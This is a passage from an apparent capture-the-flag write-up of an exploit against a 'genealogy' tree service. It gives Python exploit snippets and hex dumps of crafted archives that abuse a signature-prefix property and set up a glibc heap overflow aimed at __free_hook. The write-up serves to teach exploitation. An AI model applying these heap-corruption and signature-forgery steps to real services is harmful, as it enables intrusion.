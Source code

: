 ```(python)
    return user_id, archive, signature
```

Archive for the first genealogy tree has the following structure:

```
00 a6 01 02 aa 03 78 78 78 78 [...] 78 03 e5 c6 a1 fb 86 a4 8b b7 20 03 e1 c0 f8 81 e2 
e5 cb b5 65 03 f9 e6 bd 99 f6 ed db b5 69 03 e5 dc ac ab 96 0f 03 01 03 02 03 03 03 04 03 05 03 06 03 07 03 08 03 09 03 0a 03 0b 03 0c 03 0d 03 0e 03 0f 03 10 03 11 03 12 03 13 03 14 03 15 03 
16 03 17 03 18 03 19 03 1a 03 1b 03 1c 03 1d 03 1e 03 1f 03 20 03 21 03 22 03 23 03 24 03 25 03 26 03 27 03 28 03 29 03 2a 03 2b 03 2c 03 2d 03 2e 03 2f 03 30 03 31 03 32 03 33 03 34 03 35 03 
36 03 37 03 38 04 10 00 01 01 02 07 0a 00 01 01 02 07 04 00 01 01 02 
```

As you can see, it is flooded by the `description` field with a lot of "x" chars ("x" = `0x78`). The total length of the archive is 0x257, because it has been selected by the generator.

The second archive is even simpler: it uses the only field of the tree (`title`) and makes it an appropriate length.

```(python)
# 1 byte for id's field number,
# 3 bytes for title's field number and length (length is large enough to occupy 2 bytes)
title_length = total_length - user_id_length - 1 - 3
title = "x" * title_length

with GenealogyClient(endpoint) as client:
    client.create_user(login, password)
    client.login(login, password)
    client.create_tree(title, "")

    archive_with_signature = client.download_tree_archive()
```

Archive for this tree is the following:

```
00 a7 01 01 d1 04 78 78 78 [only 78's...]
```

The total archive's length is also 0x257.

The third archive is built from the modified second tree (let's remember that `M2` should be a prefix of `M3` ;-). Here, we set the `owners` field to some values (they will be overflowing values later, so `0x1c1` is just a chuck size in glibc, and `free_hook_address` is an address of `__free_hook` which should be interpreted by `glibc` as an address for next chunk):

```(python)
client.update_owners([0, 0x1c1, free_hook_address])
```

Also it sets `description` to the special value (see the sploit for implementation details):

```(python)
padding_length = len(length_and_padding1) - 2
description = length_and_padding1[2:].decode() + "x" * (length_and_padding1[1] - padding_length)
```
